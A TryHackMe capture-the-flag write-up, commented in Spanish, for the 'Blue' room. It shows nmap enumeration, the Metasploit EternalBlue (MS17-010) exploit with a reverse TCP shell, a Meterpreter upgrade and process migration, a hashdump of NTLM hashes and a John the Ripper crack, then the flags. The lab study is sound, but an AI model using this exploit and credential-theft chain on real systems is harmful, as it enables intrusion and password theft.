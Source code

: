 # Blue — Writeup

**Fecha:** 10-10-2025\
**Plataforma:** TryHackMe

---

## TL;DR



---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

**Relevant Result**
* 445/tcp open microsoft-ds (Windows 7)
  
---

## Foothold (Metasploit)
**Search Exploit**
```bash
  $ msfconsole
  msf > search windows 7 eternalblue
#   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010
```
**Comment:** ``msfconsole`` abre la interfaz de Metasploit.


**Set Exploit**
```bash
  msf > Use 0
  msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS $MACHINEIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST $LOCALIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
```

**Run Exploit**
```bash
  msf exploit(windows/smb/ms17_010_eternalblue) > run
	{...}
  meterpreter > 
```
## Privilege Escalation

**Shell to Meterpreter**
```bash
 meterpreter > (CTRL+Z) 
Background session 1? [y/N] y
msf > search shell_to_meterpreter
#  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter  .                normal  No     Shell to Meterpreter Upgrade
```
**List Sessions**
```bash
msf post(multi/manage/shell_to_meterpreter) > sessions -l
Active sessions
===============
  Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows		 Shell Banner: Microsoft Windows [Version 6.1.7601] -----  $IP -> $IP ($IP)

```
**Set & Run Meterpreter Shell**
```bash
 msf > Use 0
 msf post(multi/manage/shell_to_meterpreter) > set SESSION 1
 msf post(multi/manage/shell_to_meterpreter) > run
		{...}
 msf post(multi/manage/shell_to_meterpreter) > sessions -l
Id  Name  Type                     Information                                               Connection
  --  ----  ----                     -----------                                               ----------
  1         shell x64/windows		 Shell Banner: Microsoft Windows [Version 6.1.7601] -----  $IP -> $IP ($IP)
  2			meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC                              $IP -> $IP ($IP)

 msf post(multi/manage/shell_to_meterpreter) > sessions 2
 meterpreter >
```

**Migrate Shell**
```bash
meterpreter > ps
Process List
============

 PID   PPID  Name            Arch  Session  User                      Path
 ---   ----  ----            ----  -------  ----                      ----
 716   616   services.exe    x64   0        NT AUTHORITY\SYSTEM       C:\Windows\system32\serv
                                                                      ices.exe
meterpreter > migrate 716
[*] Migrating from 704 to 716...
[*] Migration completed successfully.
```
**Comment:** Migramos la shell a un proceso mas estable.

## Hash
**Getting Hash**
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

**Cracking**
```bash
$ echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > userhash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT userhash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED         (?)     
1g 0:00:00:01 DONE (2025-10-10 15:29) 0.9174g/s 9358Kp/s 9358Kc/s 9358KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

## Flags
**Flag 1**
```bash
meterpreter > cd /
meterpreter > cat flag1.txt
```

**Flag 2**
```bash
meterpreter > cd /Windows/system32/config
meterpreter > cat flag2.txt
```

**Flag 3**
```bash
meterpreter > cd /Users/Jon/Documents
meterpreter > cat flag3.txt
```
